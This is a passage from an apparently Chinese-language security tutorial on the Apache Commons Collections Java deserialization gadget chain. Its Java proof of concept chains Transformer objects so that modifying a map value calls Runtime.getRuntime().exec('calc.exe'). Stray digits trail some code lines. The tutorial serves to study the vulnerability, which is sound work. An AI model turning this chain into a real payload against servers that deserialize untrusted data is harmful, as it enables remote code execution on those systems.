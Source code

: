 

然后，我们去实现这个接口，只需要传入方法名、参数类型和参数，即可调用任意函数。在这里，我们可以看到，先用ConstantTransformer() 获取了 Runtime 类，接着通过反射调用 getRuntime 函数，再调用 getRuntime 的 exec() 函数，执行命令。依次调用关系为： Runtime --> getRuntime --> exec()



```
import org.apache.commons.collections.Transformer;      
import org.apache.commons.collections.functors.ChainedTransformer;      
import org.apache.commons.collections.functors.ConstantTransformer;      
import org.apache.commons.collections.functors.InvokerTransformer;       
public class main2 {      
   public static void main(String[] args) {      
	 Transformer[] transformers=new Transformer[]{      
		new ConstantTransformer(Runtime.class),  //获得Runtime.class字节码文件      1
                //通过反射，返回一个对象      1
		new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),         1
		new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),      1
		new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})      1
		};      1
        //ChainedTransformer为链式的Transformer，会挨个执行我们定义Transformer      1
	Transformer transformedChain=new ChainedTransformer(transformers);      1
	Map innerMap=new HashMap();      1
	innerMap.put("value","value");      1
	Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain);      2
	Map.Entry entry=(Entry)outerMap.entrySet().iterator().next();      2
	entry.setValue("test");  //修改值，触发执行      2
	}      2
}
```




可以看到，当`Map`中的Value值被修改了，触发执行了`Transformer的transform()方法，通过反射链调用了Runtime.getRuntime.exec("calc.exe") 命令`



![](https://img-blog.csdnimg.cn/20181219163537465.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
